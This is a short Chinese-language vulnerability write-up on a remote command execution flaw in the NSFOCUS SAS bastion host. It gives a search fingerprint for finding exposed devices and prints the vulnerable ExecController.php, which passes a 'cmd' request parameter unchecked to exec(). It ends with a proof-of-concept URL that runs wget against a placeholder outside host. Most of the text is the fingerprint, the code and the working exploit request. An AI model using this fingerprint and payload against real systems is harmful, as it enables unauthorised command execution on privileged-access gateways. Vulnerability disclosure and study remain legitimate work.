

# 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞描述

绿盟 SAS堡垒机 Exec 远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面


漏洞存在于文件 ExecController.php 文件中



```php
<?php
  require_once 'Nsc/Websvc/Response.php';
class ExecController extends Cavy_Controller_Action {

  var $models = 'no';

  public function index() {
    $command = $this->_params['cmd'];
    $ret = 0;
    $output = array();
    exec($command,$output,$ret);
    $result = new StdClass;
    if ($ret != 0) {
      $result->code = Nsc_Websvc_Response::EXEC_ERROR;
      $result->text = "exec error";
    }
    else {
      $result->code = Nsc_Websvc_Response::SUCCESS;
      //			$result->text = implode("\n",$output);
      $result->text = "WEBSVC OK";
    }
    $this->_render(array('result'=>$result),'/websvc/result');
  }
}
?>
```

验证POC

```php
/webconf/Exec/index?cmd=wget%20xxx.xxx.xxx
```


